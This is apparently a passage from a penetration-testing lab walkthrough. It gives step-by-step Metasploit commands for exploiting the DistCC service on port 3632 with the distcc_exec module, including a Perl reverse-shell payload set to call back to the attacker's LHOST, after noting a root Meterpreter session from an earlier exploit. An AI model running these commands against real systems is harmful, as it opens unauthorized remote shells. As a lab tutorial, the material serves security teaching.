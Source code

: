 And as we can see, a Meterpreter session has been established, allowing us to interact with the compromised system with root privileges.

### 4. DistCC Exploit

To exploit the DistCC vulnerability on port 3632, we will use the **`exploit/unix/misc/distcc_exec`** module in **Metasploit**. This exploit allows us to execute arbitrary commands on the target system. Here's how to proceed:

1. **Open `msfconsole`**:

	```bash
	msfconsole
	```

2. **Load the exploit module**:
	```bash
	use exploit/unix/misc/distcc_exec
	```

3. **Set options**:
	After loading the exploit, configure the necessary options like **RHOSTS** (target IP) and **PAYLOAD**.

	You can list the required options by typing:
	```bash
	show options
	```

4. **Set the target IP**:
	```bash
	set RHOSTS <target IP>
	```

5. **Set the payload**:
	Change the payload to **`cmd/unix/reverse_perl`** for executing a Perl reverse shell.
	```bash
	set PAYLOAD cmd/unix/reverse_perl
	```

6. **Set LHOST**:
	Configure **LHOST** (your local IP) to ensure the target machine can connect back to you.
	```bash
	set LHOST <local IP>
	```
	![alt text](images/image-11.png)
